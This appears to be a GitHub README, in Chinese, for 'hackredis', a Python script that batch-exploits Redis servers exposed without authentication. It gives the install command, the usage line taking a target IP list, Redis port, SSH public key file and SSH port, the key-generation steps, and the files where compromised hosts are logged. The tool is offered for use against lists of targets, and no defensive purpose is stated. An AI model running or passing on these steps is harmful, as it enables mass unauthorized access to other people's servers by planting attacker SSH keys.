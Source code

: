 # hackredis
之前@Matt写了一个批量扫描redis未授权的[脚本](https://github.com/code-scan/rescan)。然后我根据[Redis未授权访问导致可远程获得服务器权限](http://www.freebuf.com/vuls/85021.html)写了一个批量获取的脚本。暂时还没写多线程，可能写的很烂，凑活用吧。

**安装依赖**
```
☁  ~ sudo easy_install redis
```

**使用**
```
☁  redis  python hackredis.py                                  
usage: hackredis.py [-h] [-l IPLIST] [-p PORT] [-r ID_RSAFILE] [-sp SSH_PORT]

For Example:
-----------------------------------------------------------------------------
python hackredis.py  -l ip.txt -p 6379 -r foo.txt -sp 22

optional arguments:
  -h, --help     show this help message and exit
  -l IPLIST      the hosts of target
  -p PORT        the redis default port
  -r ID_RSAFILE  the ssh id_rsa file you generate
  -sp SSH_PORT   the ssh port
```

首先需要ssh密钥:
```
☁  ~  ssh-keygen -t rsa
☁  ~  cp ~/.ssh/id_rsa.pub /tmp/foo.txt
```

之后将ip列表填入ip.txt，然后就可以跑了。
成功的将会输出到success.txt,执行成功但是ssh连接失败的会存储在unconnect.txt，操作失败的会存储在fail.txt
测试截图：
![Alt text](./1449803881546.png)
